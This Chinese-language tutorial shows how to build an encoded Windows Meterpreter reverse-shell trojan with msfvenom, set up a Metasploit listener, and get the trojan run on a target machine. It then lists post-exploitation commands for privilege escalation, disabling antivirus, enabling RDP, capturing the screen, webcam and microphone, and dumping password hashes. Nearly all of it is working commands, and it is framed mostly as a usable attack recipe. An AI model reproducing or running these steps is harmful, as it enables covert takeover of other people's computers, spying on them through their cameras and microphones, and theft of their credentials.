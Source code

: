 生成木马反弹shell（Windows）

# 一、环境准备

1. MSF-Metasploit Framework
2. 一台windiows靶机

# 二、开始生成木马

1. 使用msfvenom生成木马
2. 终端内输入:   

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.3  LPORT=4567  -e x86/shikata_ga_nai -i 5 -f exe -o  shell.exe
```



# 三、配置监控

1. 启动msf   终端内输入：`msfconsole` 启动msf

   ![1642501758409](https://img.gyxnb.top/img/1642501758409.png)

2. 载入监控模块  msf中输入： `use exploit/multi/handler`

   ![1642501831818](https://img.gyxnb.top/img/1642501831818.png)

3. 加载payload  msf终端中输入：`set payload windows/meterpreter/reverse_tcp`

4. 配置payload  msf终端中输入：`show options`

5. 配置payload监控IP msf终端中输入： `set  lhost 192.168.70.3`

6. 配置payload监控端口  msf终端中输入：`set lport  4567` （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：`show options` 

   ![1642501934250](https://img.gyxnb.top/img/1642501934250.png)

8. 执行监控  msf终端中输入： `run`

# 四、攻击利用

1. 将木马上传到靶机

2. 在靶机上执行木马

3. 完成攻击利用

   ![1642501969373](https://img.gyxnb.top/img/1642501969373.png)



1. 查看进程：`ps`
2. 查看当前进程号：`getpid`

3. 查看**系统信息**：`sysinfo`

4. 查看目标机是否为虚拟机：

5. `run post/windows/gather/checkvm`

6. 查看完整网络设置：`route`

7. 查看**当前权限**：`getuid`

8. **自动提权**：`getsystem`

9. 关闭杀毒软件：`run post/windows/manage/killav`

10. 启动远程桌面协议：`run post/windows/manage/enable_rdp`

11. 列举当前登录的用户：

12. `run post/windows/gather/enum_logged_on_users`

13. 查看当前应用程序：

14. `run post/windows/gather/enum_applications`

15. 抓取目标机的**屏幕截图**：`load espia` ； `screengrab`

16. 获取相机设备：`webcam_list`

17. 控制拍照 ：`webcam_snap`

18. **直播摄像头**：`webcam_stream`

19.  **观看屏幕**：`run vnc`

20. 控制录音：`record_mic`

21. 查看**当前目录**：`pwd`

22. 查看当前目录：`getlwd`

23. 导出**当前用户密码哈希**  `run hashdump`